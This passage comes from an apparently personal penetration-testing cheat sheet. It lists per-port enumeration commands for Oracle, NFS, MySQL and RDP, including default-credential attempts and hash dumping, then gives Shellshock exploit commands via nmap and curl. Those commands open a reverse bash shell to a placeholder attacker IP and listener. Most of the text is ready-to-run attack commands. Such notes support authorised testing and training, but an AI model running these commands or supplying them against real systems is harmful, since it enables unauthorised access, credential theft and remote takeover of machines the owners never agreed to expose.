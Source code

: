 ```
sqlplus <username>/<password>@<ip_address>/<SID>;
sqlplus <username>/<password>@<ip_address>:<port>/<SID>;
sqlplus <username>/<password>@<ip_address>/<SID> 'as sysdba';
```
```
oscanner -s <IP> -P <PORT>
```
#### 2049/tcp (NFS)
- Enumerate the filesystem being shared
```
nmap -Pn -T4 -sV --script nfs-showmount <IP>
showmount -e <IP>
```
- Mount the filesystem
```
mount <IP>:/ /tmp/NFS
mount -t <IP>:/ /tmp/NFS
```
#### 3306/tcp (MySQL)
- ***ALWAYS*** test `root:root`
- Enumeration
```
nmap -p3306 -Pn -T4 --script mysql-info <IP>
nmap -p3306 -sV --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 --script-args mysqluser=root,mysqlpass=toor -Pn -T4 <IP>
```
- MySQL Commands
```
mysql --host=<IP> -u root -p
mysql -h <Hostname> -u root
mysql -h <Hostname> -u root@localhost
mysql -h <Hostname> -u ""@localhost

telnet 192.168.0.101 3306
```
- Config Files
```
vim /etc/my.cnf
```
#### 3389/tcp (RDP)
```
rdesktop -u <USER> -p <PASS> <IP> -g 94%  # -g is the size of the gui
```
#### 8080/tcp (HTTP/S)
#### 47001/tcp (WinRMS - Windows Remote Mgmt Svc)
## SW version
# Exploitation
## Exploitation summary
#### Shellshock
- Can find shellshock vulns with `nikto` and with `nmap`
```
nmap -p80 --script http-shellshock --script-args uri=/cgi-bin/admin.cgi,cmd='/bin/bash -i >& /dev/tcp/<ATTACKIP>/<AttackLISTENER> 0>&1' <VICTIMIP>
```
- Can exploit shellshock vulns using `Burp` or `cURL`
```
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/<ATTACKIP>/<AttackLISTENER> 0>&1' http://<VICTIMIP>
```